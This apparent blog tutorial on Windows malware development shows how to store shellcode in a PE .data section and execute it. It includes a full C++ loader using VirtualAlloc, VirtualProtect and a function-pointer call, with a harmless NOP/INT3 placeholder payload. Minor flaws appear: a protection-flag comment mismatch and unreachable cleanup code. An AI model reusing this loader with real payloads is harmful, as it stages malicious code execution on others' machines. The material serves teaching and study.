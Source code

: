 ```yaml
---
title: "Windows Malware Development Part 3: Payload Placement Basics - .data"
header:
  teaser: /assets/images/pe.png
  teaser_home_page: true
categories:
  - Malware Dev
classes: wide
tags:
  - Malware
toc: true
toc_label: Contents
---
```

## Objective ##

Hey guys, welcome to the third part of Windows Malware Development, in which we will be beginning with the basics of payload placement. In this post, we will be looking at how to place our shellcode in the `.data` section

## .data Section ##

Placing our payload in the `.data` section is relatively easy. All we have to do is make sure that our shellcode variable is defined outside of our `main()` function. 

>You will need Visual Studio/Visual studio build tools, x64dbg and ProcessHacker for this exercise.

### Writing the code ###

So, using our code from the previous post, all we have to do is remove the `#pragma` directive and the `declspec` line that tells it where to store the shellcode. Also, we do not define it as a `const`:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

unsigned char Text_RawData[] = {
    0x90,    // NOP
    0x90,    // NOP
    0xcc,    // INT3
    0xc3     // RET
};

int main() {
    printf("[i] Text_RawData function: 0x%p \n", Text_RawData);

	// Allocate executable memory.
    size_t codeSize = sizeof(Text_RawData);
    printf("[1] Press <Enter> To Allocate Memory ...");
	getchar();
	void* executableMemory = VirtualAlloc(NULL, codeSize, MEM_COMMIT |  MEM_RESERVE, PAGE_READWRITE);
	
	if (executableMemory == NULL) {
        printf("VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	printf("[i] Memory allocated at : 0x%p \n", executableMemory);
	
	// Copy the shellcode from Text_RawData to the executable memory.
    printf("[2] Press <Enter> To Write Shellcode ...");
	getchar();
	memcpy(executableMemory, Text_RawData, codeSize);
    
	// Change the memory protection to PAGE_EXECUTE_READ.
    DWORD oldProtect;
    if (!VirtualProtect(executableMemory, codeSize, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	// Execute our shellcode
    printf("[#] Press <Enter> To Run ...");
	getchar();
	((void (*)())executableMemory)();
	return 0;
	
	// Free the allocated memory.
    VirtualFree(executableMemory, 0, MEM_RELEASE);

    printf("[#] Press <Enter> To Quit ...");
    getchar();
    return 0;
}
```

### Analyzing in x64dbg ###

In order to get a better understanding of how this works on a machine level, lets have a look at our program in x64dbg.

If you are using VS build tools, you can use the below command:

```
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcfilename.cpp /link /OUT:output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```

Now, lets run our program and attach the debugger to it. As our console prints out the address of our raw data array (our shellcode), lets first go to that address by jumping to it:

![jmp_data.png](/assets/images/jmp_data.png)

Once we reach there in our CPU window, we can see the series of instructions of our shellcode. If we right click on the first instruction of our shellcode, and follow it in the memory map window, we can see that the shellcode resides in the `.data` section now:

![data_sec.png](/assets/images/data_sec.png)

There are no changes in the execution part of our program, so execution will happen in the same way as the `.text` shellcode program from our previous post.

That's all for this post! See you in the next, in which we will be covering the last part of payload placement, which will be using the `.rsrc` section.